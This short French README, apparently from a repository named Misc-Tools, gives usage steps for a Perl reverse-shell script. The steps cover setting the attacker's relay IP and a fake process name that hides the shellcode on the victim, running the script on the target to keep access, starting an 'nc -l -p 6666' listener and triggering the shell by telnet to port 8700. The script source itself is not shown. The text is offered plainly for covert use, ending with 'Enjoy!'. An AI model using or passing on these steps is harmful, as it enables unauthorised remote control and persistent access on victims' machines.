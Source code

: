 # Misc-Tools

1) Modifier la valeur des variables suivantes:                                          
  - $publicip --> contient l'ip publique de l'attaquant, à savoir celle du serveur rebond.
  - $fakeprocess --> n'importe quel processus identifié sur la cible afin de camoufler le shellcode.
  - $reverse_shell_port (6666) --> le port cible sur lequel se connecter pour piloter le shell, l'ouvrir ou le fermer.
  - $port (8700) --> Le port de la machine victime, sur lequel se connecter pour lançer l'activation du shellcode via la commande "shell".
2) Le script ./ReverseShell.pl doit être exécuté sur le la cible afin de pouvoir maintenir l'accès sur la machine distante.
3) Exécuter le listener sur votre machine: 'nc -l -p 6666' pour écouter la future connexion de la machine cible.
4) Lancer la commande d'activation du revershell distant: 'telnet $ip_publique_machine $port' (à remplacer par le port défini dans le script --> 8700 dans notre cas).

Enjoy!

